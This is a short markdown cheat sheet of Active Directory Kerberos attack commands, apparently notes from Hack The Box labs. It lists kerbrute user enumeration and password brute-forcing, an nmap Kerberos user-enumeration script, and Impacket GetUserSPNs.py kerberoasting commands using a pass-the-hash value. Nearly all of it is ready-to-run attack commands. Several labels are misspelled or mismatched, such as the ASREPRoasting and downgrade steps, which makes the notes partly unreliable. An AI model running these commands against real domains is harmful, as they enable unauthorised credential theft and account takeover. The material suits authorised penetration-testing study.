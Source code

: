 ldapsearh (find user principal name and service name) --> valid users via kerbrute / or nmap (for keberoasting)


**verify vaild users**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum validuser-list
```
**verify valid user via nmap**
```sh
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='joshi.local',userdb=/home/hello/ad/username.txt only-usernames.txt <IP>
```



**finding password hash via service user**
`got service user name via ASREPRoasting`

```sh
 kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt
```


**verify password**
```sh
kerbrute bruteuser --dc 10.10.10.100 -d active.htb password.txt SVC_TGS
```

**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
## kerberoasting command

you need id and password for any account on the machine to perform this attack

`via hash`

```sh
GetUserSPNs.py -request -dc-ip 10.10.11.168 -hashes :5F38C0485F0C23F8DEDF9BF23FFA5336 scrm.local/ksimpson
```
`via ip`
```sh
 GetUserSPNs.py -request -dc-ip 10.10.11.168 -k scrm.local/ksimpson
```
`via host`

```sh
GetUserSPNs.py -request -dc-host dc1.scrm.local -k scrm.local/ksimpson
```
